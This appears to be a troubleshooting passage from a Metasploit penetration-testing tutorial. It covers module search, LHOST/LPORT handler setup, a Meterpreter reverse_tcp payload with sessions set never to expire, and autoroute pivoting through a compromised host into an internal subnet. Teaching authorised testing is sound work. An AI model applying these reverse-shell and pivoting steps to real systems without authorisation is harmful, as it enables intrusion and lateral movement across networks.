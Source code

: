 ### Issue 1: Module Not Found or Search Returns No Results
**Problem:** Search commands return empty results or "No modules matched your search" error
**Cause:** Outdated module database or incorrect search syntax
**Solution:**
```bash
# Update Metasploit framework
msfupdate

# Reload module database
reload_all

# Use broader search terms
search file upload
search type:exploit webapp
```

### Issue 2: Exploit Fails with "Handler Failed to Bind"
**Problem:** Cannot establish reverse connection due to port binding issues
**Cause:** LHOST incorrectly configured or port already in use
**Solution:**
```bash
# Check correct local IP address
ip addr show

# Set correct LHOST (usually eth0 or tun0 interface)
set LHOST 192.168.1.100

# Change default port if 4444 is busy
set LPORT 4445
```

### Issue 3: Session Dies Immediately After Establishment
**Problem:** Meterpreter session closes instantly after successful exploitation
**Prevention:**
```bash
# Use staged payloads for better reliability
set payload linux/x64/meterpreter/reverse_tcp

# Increase session timeout
set SessionExpirationTimeout 0
set SessionCommunicationTimeout 300
```

### Issue 4: Cannot Route Through Compromised System
**Problem:** Autoroute fails to establish routing for network pivoting
**Optimization:**
```bash
# Verify session is active
sessions -l

# Add route manually with correct session ID
route add 192.168.100.0 255.255.255.0 1

# Verify routing table
route print
```

